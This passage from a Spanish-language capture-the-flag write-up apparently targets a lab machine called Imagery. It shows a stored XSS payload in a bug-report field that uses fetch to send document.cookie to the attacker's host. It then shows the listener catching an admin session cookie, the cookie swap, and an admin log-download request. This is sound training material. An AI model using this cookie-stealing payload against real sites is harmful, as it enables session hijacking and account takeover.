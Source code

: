 Vemos que no dio ningun error, pero tampoco nos dio una informacion visual de si se esta reflejando o no, por lo que vamos a probar un `XSS` que intente obtener la `Cookie` del usuario que le llegue dicho mensaje.

```
POST /report_bug HTTP/1.1
Host: 10.10.11.88:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.88:8000/
Content-Type: application/json
Content-Length: 108
Origin: http://10.10.11.88:8000
Connection: keep-alive
Cookie: session=.eJyrVkrJLC7ISaz0TFGyUkq0ME4xTzVMUdJRyix2TMnNzFOySkvMKU4F8eMzcwtSi4rz8xJLMvPS40tSi0tKi1OLkFXAxOITk5PzS_NK4HIgwbzE3FSgHSA1DiBCLzk_V6kWAJosLr0.aOAcVA.cAPdTsCKIzoAvuSshDJoX37uDjk
Priority: u=0

{"bugName":"test","bugDetails":"\"><img src=x onerror=\"fetch('http://10.10.14.64/?c='+document.cookie)\">"}
```

Antes de enviarlo nos pondremos a la escucha para que nos llegue la peticion cuando alguien entre a dicho mensaje.

```shell
python3 -m http.server 80
```

Si esperamos un rato despues de enviar la peticion con `BurpSuite` veremos lo siguiente:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.88 - - [04/Oct/2025 03:13:12] "GET /?c=session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aODJBQ.FIjiSGV8BLU_ajCsJdIS0UH9Nkk HTTP/1.1" 200 -
```

Veremos que ha funcionado, vamos a irnos al `Storage` de nuestro navegador e intercambiar la `Cookie` nuestra por la que hemos recibido a ver que pasa.

Una vez cambiado y recargada la pagina veremos una opcion llamada `Admin panel`, si entramos dentro veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-04 091444.png" alt=""><figcaption></figcaption></figure>

Vemos que podemos descargarnos un archivo, vamos a capturar la peticion con `BurpSuite` para ver que esta pasando por detras, si le damos a descargar y la interceptamos...

```
GET /admin/get_system_log?log_identifier=admin%40imagery.htb.log HTTP/1.1
Host: 10.10.11.88:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://10.10.11.88:8000/
Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aODJBQ.FIjiSGV8BLU_ajCsJdIS0UH9Nkk
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```
